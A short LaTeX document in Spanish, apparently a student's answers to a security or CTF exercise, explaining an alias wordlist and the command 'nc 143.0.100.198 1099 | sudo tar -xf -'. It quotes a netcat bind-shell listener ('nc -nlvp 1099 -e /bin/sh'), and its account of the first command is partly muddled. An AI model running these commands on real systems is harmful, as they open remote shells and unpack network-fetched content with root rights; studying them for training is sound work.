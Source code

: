 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{enumerate}
\item El diccionario con los aliases se llama ekoparty.txt. Adem\'as, se agregan los nombres completos de las personas.

\item Para analizar el comando \textbf{nc 143.0.100.198 1099 $|$ sudo tar -xf -} comenzaremos con la parte de netcat, es decir, nc. Esto se usa generalmente para crear una bind shell, donde el atacante se conecta a la victima con IP 143.0.100.198 al puerto 1099. En la victima se deberia ejecutar \textit{nc -nlvp 1099 -e /bin/sh}. Luego, la salida de este comando se redirecciona al comando tar, el cual con los parametos xf extrae un archivo -. 


\end{enumerate}
\end{document}
